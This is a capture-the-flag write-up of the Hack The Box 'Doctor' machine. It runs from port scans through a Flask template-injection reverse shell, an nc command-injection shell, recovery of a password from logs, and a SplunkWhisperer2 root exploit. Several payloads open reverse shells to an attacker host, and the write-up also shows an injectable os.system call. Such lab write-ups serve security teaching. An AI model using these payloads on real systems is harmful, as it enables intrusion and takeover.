 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
---

## 🧭 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.209
nmap -p 22,80,8089 -sCV -oA scans/nmap-tcpscripts 10.10.10.209
```

- Ports:
  - 22: [SSH](SSH) (OpenSSH 8.2p1)
  - 80: [HTTP](HTTP) (Apache/2.4.41)
  - 8089: HTTPS (Splunkd)

Discovered a subdomain: `doctors.htb`

---

## 🌐 Web Enumeration

### Port 80
- Default Apache page
- Discovered email: `info@doctors.htb`
- Add `doctors.htb` to `/etc/hosts`

### doctors.htb
- Werkzeug Python web server with Flask
- Create account ➝ login ➝ "New Message"
- URL `/archive` provides RSS output ➝ SSTI confirmed

```jinja
{{7*7}} ➝ renders to 49 in /archive
```

---

## 🧨 Exploitation - Shell as `web`

### Server-Side Template Injection (SSTI)
```jinja
{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.14.6\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\", \"-i\"])'").read()}}
  {% endif %}
{% endfor %}
```

### Or Command Injection via POST
```bash
http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')
```

---

## 👤 Shell as `shaun`

### Inspect logs due to `web` being in `adm` group:
```bash
grep -r passw /var/log
```

Found:
```bash
POST /reset_password?email=Guitar123
```

```bash
su - shaun
Password: Guitar123
cat /home/shaun/user.txt
```

---

## 🔐 Privilege Escalation to `root`

### SplunkWhisperer2 RCE Exploit

#### Get Splunk creds:
- shaun:Guitar123 also works for Splunk 8089

#### Run SplunkWhisperer2
```bash
python3 PySplunkWhisperer2_remote.py \
  --host 10.10.10.209 \
  --lhost 10.10.14.6 \
  --username shaun \
  --password Guitar123 \
  --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
```

### Catch root shell:
```bash
nc -lnvp 443
id
cat /root/root.txt
```

---

## 🧠 Beyond Root

### Flask Session Hijack Post-Reset
- Cookies store `_user_id` ➝ reused after box reset to impersonate `shaun`

### Command Injection in FlaskForm
```python
os.system(f'/bin/curl --max-time 2 {url} -o {path}')
```

Any user input containing `$(...)` or backticks can result in RCE.

---

**Techniques**
- Flask SSTI ➝ RCE
- Log analysis ➝ Password reuse
- SplunkWhisperer2 ➝ Root RCE